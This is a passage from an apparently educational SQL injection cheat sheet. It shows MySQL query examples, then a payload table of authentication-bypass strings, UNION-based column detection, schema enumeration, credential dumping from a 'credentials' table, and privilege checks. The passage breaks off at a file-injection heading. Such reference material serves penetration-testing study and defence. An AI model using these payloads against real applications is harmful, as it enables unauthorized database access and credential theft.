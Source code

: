 | `SELECT * FROM logins ORDER BY column_1 DESC, id ASC`             | Sort by two-columns                                      |
| `SELECT * FROM logins LIMIT 2`                                    | Only show first two results                              |
| `SELECT * FROM logins LIMIT 1, 2`                                 | Only show first two results starting from index 2        |
| `SELECT * FROM table_name WHERE <condition>`                      | List results that meet a condition                       |
| `SELECT * FROM logins WHERE username LIKE 'admin%'`               | List results where the name is similar to a given string |

### MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

### SQL Injection

| **Payload**                                                                                                                                | **Description**                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------- |
| **Auth Bypass**                                                                                                                            |                                                      |
| `admin' or '1'='1`                                                                                                                         | Basic Auth Bypass                                    |
| `admin')-- -`                                                                                                                              | Basic Auth Bypass With comments                      |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)              |                                                      |
| **Union Injection**                                                                                                                        |                                                      |
| `' order by 1-- -`                                                                                                                         | Detect number of columns using `order by`            |
| `cn' UNION select 1,2,3-- -`                                                                                                               | Detect number of columns using Union injection       |
| `cn' UNION select 1,@@version,3,4-- -`                                                                                                     | Basic Union injection                                |
| `UNION select username, 2, 3, 4 from passwords-- -`                                                                                        | Union injection for 4 columns                        |
| **DB Enumeration**                                                                                                                         |                                                      |
| `SELECT @@version`                                                                                                                         | Fingerprint MySQL with query output                  |
| `SELECT SLEEP(5)`                                                                                                                          | Fingerprint MySQL with no output                     |
| `cn' UNION select 1,database(),2,3-- -`                                                                                                    | Current database name                                |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`                                                                  | List all databases                                   |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`                                 | List all tables in a specific database               |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`                | List all columns in a specific table                 |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -`                                                                       | Dump data from a table in another database           |
| **Privileges**                                                                                                                             |                                                      |
| `cn' UNION SELECT 1, user(), 3, 4-- -`                                                                                                     | Find current user                                    |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`                                                               | Find if user has admin privileges                    |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges                          |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection**                                                                                                                         |                                                      |